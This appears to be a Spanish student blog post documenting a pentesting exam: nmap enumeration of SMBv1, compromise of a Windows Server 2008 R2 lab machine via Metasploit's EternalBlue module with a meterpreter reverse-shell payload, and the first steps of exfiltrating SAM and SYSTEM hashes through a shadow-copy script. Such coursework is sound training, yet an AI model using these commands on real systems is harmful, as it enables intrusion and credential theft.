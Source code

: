 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [Ciberseguridad, Seguridad Informática]
tags: [METERPETER, EXPLOIT, SAM]  # TAG names should always be lowercase
---
```


En este post, vamos a explicar los pasos realizados para el desarrollo del examen parcial, se responden las siguientes preguntas relacionadas a cada paso.

# Pregunta 2 (12 puntos).
Eres un auditor de seguridad que tiene la tarea de realizar un pentesting sobre un servidor de una empresa que ejecuta Windows Server 2008 R2. Este servidor tiene habilitado el servicio SMBv1, y tu objetivo es identificar vulnerabilidades, explotar el servicio SMB para obtener acceso y luego exfiltrar los archivos SAM y SYSTEM. Siguiendo los pasos a continuación, documenta tu procedimiento y las herramientas empleadas.



<div style="background-color: #f9f9f9; border-left: 6px solid #ccc; padding: 10px;">
  ℹ️ <strong>Información útil:</strong> Los atacantes no solo se limitan a escanear redes. Pueden usar ingeniería social, phishing o técnicas de open-source intelligence (OSINT) para obtener datos valiosos sobre la empresa o sus empleados.
</div>

##  INSTRUCCIONES:
## 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos)
Se utiliza nmap desde la máquina atacante para descubrir servicios activos en la máquina objetivo. 

![alt text](/assets/images/ESCANEODERED.png)
![alt text](/assets/images/escaneodered2.png)

Cuando ejecutamos este comando, Nmap intentará detectar los protocolos de SMB soportados en la máquina objetivo. El resultado proporcionará una lista de versiones de SMB activas. Si el protocolo SMBv1 está habilitado, el output incluirá una entrada que indicará SMBv1 o mostrará el protocolo NT LM 0.12, que es otra forma de referirse a SMBv1.

SMBv1 activo: Si aparece alguna referencia a SMBv1 o NT LM 0.12 en el output, esto significa que SMBv1 está habilitado.
SMBv1 deshabilitado: Si no aparece ninguna de estas menciones, esto indica que SMBv1 no está activo en la máquina objetivo.
El COMANDO UTILIZADO para verificar si SMBv1 está habilitado es el siguiente:
nmap -p 139,445 --script smb-protocols 10.0.2.4
Explicación del comando
•	nmap: Ejecuta el escaneo de red con Nmap.
•	-p 139,445: Especifica los puertos 139 y 445, que son los puertos típicos en los que opera SMB.
•	--script smb-protocols: Usa el script smb-protocols, un script de la biblioteca de Nmap diseñado para enumerar los protocolos SMB disponibles en la máquina objetivo y determinar si SMBv1 está habilitado.
![alt text](/assets/images/3.png)

Vulnerabilidad en SMBv1 y Exploit EternalBlue (MS17-010)
EternalBlue (asociado al identificador MS17-010) es una vulnerabilidad en el protocolo SMBv1 en sistemas Windows. Esta vulnerabilidad, descubierta en 2017, permite a atacantes ejecutar código remoto no autorizado en máquinas vulnerables, lo cual resulta en un acceso completo al sistema afectado. EternalBlue explota una falla en el protocolo de comunicación SMBv1, aprovechándose de un error de desreferencia de puntero que permite ejecutar código en la memoria del sistema.

El módulo exploit/windows/smb/ms17_010_eternalblue de Metasploit se selecciona en particular para obtener acceso remoto a una máquina con SMBv1 habilitado y vulnerable debido a que este módulo explota directamente la vulnerabilidad MS17-010, la cual afecta a SMBv1 en sistemas Windows. Esta vulnerabilidad permite ejecutar código de forma remota debido a una falla de desreferencia de puntero, lo que la hace ideal para obtener acceso sin necesidad de credenciales o interacciones adicionales. Además, eternalBlue es un exploit probado y ampliamente utilizado, conocido por su alta tasa de éxito en sistemas que aún no han aplicado el parche MS17-010. Si un sistema es vulnerable, el exploit tiene una probabilidad muy alta de funcionar correctamente, estableciendo una conexión remota.


![alt text](/assets/images/parametros.png)

parámetros críticos configurados en Metasploit:
Parámetros Críticos
1.	LHOST (Local Host):
o	Descripción: Es la dirección IP de tu máquina atacante.
o	Importancia: Este parámetro es crucial porque especifica dónde el servidor comprometido debe enviar la conexión de retorno. Es esencial para establecer una sesión de reverse shell, permitiendo que el servidor objetivo se conecte de nuevo a tu máquina para que puedas controlarlo.
2.	RHOSTS (Remote Hosts):
o	Descripción: Es la dirección IP de la máquina objetivo.
o	Importancia: Indica a Metasploit qué sistema es el objetivo del exploit. Sin este parámetro, el framework no sabría a qué máquina intentar explotar.
3.	PAYLOAD:
o	Descripción: Define la carga útil que se ejecutará en el sistema objetivo después de que el exploit tenga éxito.
o	Importancia: En este contexto, un payload de reverse shell como windows/x64/meterpreter/reverse_tcp es usado para proporcionar una interfaz de control remoto, permitiéndote ejecutar comandos en el sistema objetivo.

Estos valores son esenciales para dirigir el ataque correctamente. LHOST asegura que la comunicación de retorno del sistema objetivo se dirija a tu máquina, mientras que RHOSTS define claramente el objetivo del ataque. Configurar un PAYLOAD adecuado garantiza que, una vez que el exploit tiene éxito, tengas el control necesario sobre el sistema comprometido


![alt text](/assets/images/exploit.png)


"Meterpreter session 1 opened": Esto confirma que se ha establecido una sesión Meterpreter. Ahora tienes acceso remoto al sistema objetivo a través del puerto especificado (en este caso, 49272), usando tu máquina atacante (10.0.2.9:4444).
Este mensaje significa que tienes control sobre el sistema objetivo y puedes interactuar con él usando Meterpreter, una potente herramienta para realizar tareas de post-explotación.


2.5. Exfiltración de Archivos SAM y SYSTEM (2 puntos)
Pasos para exfiltrar los archivos:
1.	Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs
 
2.	Ejecuta el script para crear una copia de volumen de sombra:
execute -f cmd.exe -a "/c C:\\Windows\\Temp\\vssown.vbs
 
El mensaje que has recibido, "Process 5044 created", indica que el comando se ejecutó y que se creó un proceso nuevo (ID de proceso 5044) en la máquina Windows
3.	Localiza la copia de volumen de sombra en una ruta similar a \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX.
![alt text](/assets/images/5.png)